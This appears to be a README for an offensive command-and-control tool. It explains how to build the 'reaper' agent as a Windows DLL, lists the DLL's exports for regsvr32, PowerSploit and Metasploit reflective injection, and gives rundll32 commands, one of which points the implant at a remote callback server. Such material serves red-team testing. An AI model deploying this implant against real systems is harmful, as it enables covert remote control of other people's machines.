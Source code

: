 # reaper Agent DLL
reaper can be compiled into a DLL. The `data/bin/dll/reaper.c` file is
a very simple C file with a single function. The `VoidFunc` and `Run`
functions are exported to facilitate executing the DLL.
The `VoidFunc` function name was specifically chosen to facilitate use
with PowerSploit's
[Invoke-ReflectivePEInjection.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)
. Using `VoidFunc` requires no modification to run reaper's DLL with
Invoke-ReflectivePEInjection.

If the DLL is compiled on Windows, the
[TDM-GCC](http://tdm-gcc.tdragon.net/download) 64bit compiler has proven
 to work well during testing.

If the DLL is compiled on Linux, ensure `MinGW-w64` is installed.

## Creating the DLL
The DLL can be created using the Make file with `make agent-dll`

Alternatively, it can be compiled without Make by following these steps:
* Create the required C archive file:
  * `cd data/bin/dll;go build -buildmode=c-archive ../../../cmd/reaperagentdll/main.go`

* Compile the DLL
  * `gcc -shared -pthread -o reaper.dll reaper.c main.a -lwinmm -lntdll -lws2_32`

You will now have DLL file that you can use with whatever method of
execution you would like.

## DLL Entry Points
This table catalogs the exported functions for `reaper.dll` that can be
used as an entry point when executing the DLL.

| Exported Function | Status | Notes
--- | --- | ---
| Run | Working | Main function to execute reaper agent
| DllInstall | Partial | Used with regsvr32.exe /i . Handling for `/i` not implemented
| DllRegisterServer | Working | Used with regsvr32.exe
| DllUnregisterServer | Working | Used with regsvr32.exe /u
| ReflectiveLoader | Broken | Used with Metasploit's windows/manage/reflective_dll_inject module
| VoidFunc | Working | Used with PowerSploit's Invoke-ReflectivePEInjection.ps1

## Execution with Rundll32.exe
The DLL can be executed on a Windows host using the rundll32.exe
program. An example of using `rundll32` is:

`rundll32 reaper.dll,main` or `rundll32 reaper.dll,Run`

A different reaper server _can_ be provided when executing the DLL by
suppling the target URL as an argument. An example is:

`rundll32 reaper.dll,Run https://yourdomian.com:443/`

## Invoke-reaper
The compiled DLL can be inserted into the `Invoke-reaper.ps1` script.
Check the [README](../powershell/README.MD) in the `powershell` directory for
additional details.

## Limitations
It is important to note that the DLL is currently in the
Proof-of-Concept stage. Because of this, there is no way to provide a
different reaper server URL when calling `Invoke-reaper`.
`Invoke-reaper` will only call back to the reaper server at
127.0.0.1. because that is the hard coded value. Future work will
facilitate specifying the value at compile time or when executing the
script. Work is in progress to overcome this issue.

One option to overcome this is to hard-code in the target reaper server
address into the `url` variable of the `cmd/reaperagent/main.go` prior
to creating the C archive file.